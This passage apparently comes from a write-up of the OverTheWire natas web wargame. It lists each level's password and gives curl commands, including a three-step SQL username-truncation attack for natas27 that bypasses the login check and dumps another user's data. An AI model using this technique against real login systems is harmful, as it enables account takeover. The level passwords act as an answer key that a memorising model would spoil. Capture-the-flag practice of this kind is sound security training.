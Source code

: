 ```
$ curl -s -H "Authorization: Basic `echo -n 'natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T' | base64`" http://natas26.natas.labs.overthewire.org/img/natas26.php
```

### natas27

**Target:**

```
http://natas27.natas.labs.overthewire.org/
55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
natas27
```

**Vulnerability:** logic issue

**Exploitation:**

```
# verify that 'natas28' user exists
$ USR=natas28; curl -s -H "Authorization: Basic `echo -n 'natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ' | base64`" http://natas27.natas.labs.overthewire.org/ -d "username=$USR" -d 'password=qwe123'

# add user that will be truncated to 64 characters (varchar(64)):
$ USR=$(python2 -c 'print "natas28" + " "*64 + "AAA"'); curl -s -H "Authorization: Basic `echo -n 'natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ' | base64`" http://natas27.natas.labs.overthewire.org/ -d "username=$USR" -d 'password=qwe123'

# dump data of original 'natas28' user; checkCredentials(...) passes thanks to previously added user
$ USR=natas28; curl -s -H "Authorization: Basic `echo -n 'natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ' | base64`" http://natas27.natas.labs.overthewire.org/ -d "username=$USR" -d 'password=qwe123'
```

### natas28

**Target:**

```
http://natas28.natas.labs.overthewire.org/
JWwR438wkgTsNKBbcJoowyysdM82YjeF
natas28
```

**Vulnerability:**

**Exploitation:**
